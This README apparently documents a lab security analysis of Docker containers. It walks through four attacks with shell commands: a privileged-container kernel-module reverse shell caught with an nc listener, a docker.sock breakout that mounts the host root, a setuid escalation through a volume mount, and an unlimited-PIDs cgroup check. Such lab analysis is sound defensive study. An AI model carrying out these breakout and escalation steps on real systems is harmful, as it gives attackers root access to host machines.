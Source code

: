 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

1. ### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
   ```bash
   cd reverseshell
   make
   ```
2. Start a Python Server in the *reverseshell* directory using the command:
   ```bash
   python3 -m http.server
   ```
3. On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
   ```bash
   docker run --rm --privileged -it alpine sh
   ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
   ```bash
   wget http://172.17.0.1:8000/reverseshell_module.ko
   ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
   ```bash
   chmod +x reverseshell_module.ko
   ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
   ```bash
   nc -nlvp 4444
   ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
   ```bash
   insmod reverseshell_module.ko
   ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---

2. ### Container Breakout through Docker Socket

> This attack is to simulate how container breakout can be performed using docker.sock mount through which an attacker that has access to the Container can start another Container mounted on the host Root directory to access the Host file system.

**Step**

1. Start a Docker Container mounted on the Docker socket file at `/var/run/docker.sock` using the command:
   ```bash
   docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
   ```
2. Check for the docker.sock file in the Container File System through the command:
   ```bash
   ls /var/run/docker.sock
   ```
3. Update apk and install docker engine on the Container file system to start another container on the Host from inside a Container namespace through the commands:
   ```bash
   apk update
   apk add -U docker
   ```
4. Start a new container by explicitly defining the docker socket extension using the command:
   ```bash
   docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
   ```

**Result**

> The container started from inside the namespace of another container mounted on the root directory of the host and stored in the test directory of the container file system provided a medium to access the host file system. It is a Read Only File System so it can be classified as a Low graded High Level Vulnerability as it has access to host file system data but, cannot make any modifications.

---

3. ### Privilege Escalation using volume mounts

> Docker daemon requires root privileges to perform some if it’s operations so it runs with root privileges. If a user is part of the Docker Group it is possible for them to elevate their privileges to root. This can be done through Docker volumes and setuid binaries. Docker volumes are a way to provide persistent storage to Docker Containers. When a binary is created and a setuid bit is set on it, it continues to run as root even when a low privileged user uses it.

**Steps**

1. Change the directory to privesc and build the Docker image with the command:
   ```bash
   docker build --rm -t privesc .
   ```
2. Build the Docker container by mounting the */tmp* directory of the host to the */shared* directory of the Container and executing the shellscript.sh using the command:
   ```bash
   docker run -v /tmp:/shared/ privesc:latest /bin/sh shellscript.sh
   ```
3. Navigate to the /tmp directory and execute the shell which gives us a bash shell session with root privileges

**Result**

> The reason it will be possible to gain root privileges is because a volume was mounted from the host to the container and containers run with root privileges by default. The shell executable set the user id to 0 and gave us a bash shell so essentially we setuid binary of a volume which appears as the setuid binary of the host.

---

4. ### Control Group Vulnerability

> Control groups are a feature of the Linux Kernel. It allows to limit the access processes and containers have to system resources such as CPU, RAM, IOPS and network. Here our concern is to limit the PIDs to prevent fork bomb attack.

**Steps**

1. Start a base alpine container using the command:
   ```bash
   docker run -itd --name=cgroups alpine
   ```
2. Navigate to the directory names `/sys/fs/cgroup/pids/docker/` followed by the SHA key returned in Step 1
3.  Examine the contents of the pids.max file

**Result**

> Here it is set to max which means we can fork unlimited processes from this container which can be catastrophic if the container is attacked and the attacker decides to run a fork bomb attack to exhaust all System resources which might result in System failure, which can be a financial disaster in Multinational Companies providing services.
